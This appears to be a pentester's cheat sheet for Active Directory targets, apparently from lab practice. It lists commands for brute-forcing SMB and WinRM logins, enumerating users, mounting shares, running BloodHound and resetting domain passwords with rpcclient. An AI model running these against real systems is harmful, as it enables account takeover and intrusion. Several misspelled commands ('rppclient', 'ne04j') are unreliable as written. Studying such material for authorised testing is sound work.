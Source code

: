 ## Active Directory 
### Machine workflow
- Enumerate Ports and Shares
- Identify valid users
- Obtain users has who have kerberos pre auth set (with GETNPUSERS)
- Crack the hash to obtain the password
- Recon from RPCCLINET with the password
- Enumerate SMBShares
- Remote login if hash is obtained

### SMB Bruteforce

- Crackmapexec
- Hydra
- Medusa


#### Hydra
```bash
# bruteforcing smb login
hydra -L users.txt -P pass.txt 10.10.*.* smb
```

#### Crackmapexec
```bash
# bruteforcing smb login, enumerating the available shares with --shares option
crackmapexec smb 10.10.*.* -u user.txt -p pass.txt --shares --continue-on-success

# bruteforcing winrm login
crackmapexec winrm 10.10.*.* -u users.txt -p pass.txt --continue-on-success 

```

#### Medusa
```bash
# bruteforcing smb login
medusa -h 10.10.*.* -U users.txt -P pass.txt -M smbnt 
```

### User Enumeration

- kerbrute

```bash
# enumerate AD users with kerbrute
kerbrute userenum --dc 10.10.*.* -d domain users.txt
```

### Mount 

```bash
# mount an anonymous login share
mount -t cifs '//10.10.*.*/ShareName' /mOuNt_Location

# mount an authenticated smb share
mount -t cifs -o 'username=UserName,password=Password' '//10.10.*.*/ShareName' /mOuNt_Location
```

### BloodHound

#### On Windows

```bash
# setup
git clone https://github.com/fox-it/BloodHound.py; cd BloodHound.py; python3 setup.py install

# Running bloodhound.py
python3 bloodhound.py -u userName -p 'PASSWORD' -ns machineIP -d domain.local -c all 

# start the neo4j console
sudo ne04j console

# start the bloodhound
cd /opt/bloodhound-linux-x64/
./BloodHound

# import all the json files
# mark the obtained user as owned user and the target user as high value target
```

### Reset AD users passowrd with rppclient

```bash
# login to rpcclinet
rppclient -U userName machineIP
# password for the user we have access to

rpcclinet $> setuserinfo2 {userToChange} 23 '{PasswordToChange}'
# enumerates users which mostly will be AD Users
rpcclinet $> enumdomusers
# enumerate printers in the machine
rpcclinet $> enumprinters
```
